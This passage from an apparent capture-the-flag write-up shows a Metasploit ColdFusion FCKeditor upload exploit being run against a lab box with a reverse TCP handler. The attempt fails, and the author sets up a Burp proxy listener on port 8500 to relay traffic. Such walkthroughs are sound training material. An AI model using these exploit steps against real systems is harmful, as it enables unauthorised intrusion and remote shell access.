 ```text
RPORT => 8500
```

With target set let's run the exploit:

```text
msf5 exploit(windows/http/coldfusion_fckeditor) > run

[*] Started reverse TCP handler on 10.10.14.31:4444
[*] Sending our POST request...
[-] Upload Failed...
[*] Exploit completed, but no session was created.
```

Fails almost instantly, seems the delay on the webserver is stopping msf from executing. Go to Burp, set up a new listener, bind to port 8500:

![burp-proxy](/assets/images/2020-08-02-22-01-55.png)

Redirect any requests that come to it on to the box:

![burp-proxy-listeners](/assets/images/2020-08-02-22-02-20.png)
